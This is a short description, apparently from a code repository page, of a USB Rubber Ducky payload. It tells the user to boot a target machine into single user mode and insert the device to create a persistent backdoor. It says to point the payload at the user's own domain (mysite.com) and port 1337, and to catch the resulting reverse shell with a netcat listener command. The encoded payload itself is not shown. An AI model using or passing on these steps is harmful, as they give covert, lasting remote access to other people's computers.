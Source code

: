 Boot into single user mode and insert ducky. 
This script will create a persistent backdoor.
This payload was encoded with v2.4 on firmware duck_v2.1.hex. 

Change mysite.com to your domain name or IP address
Change 1337 to your port number
Catch the shell with 'nc -l -p 1337
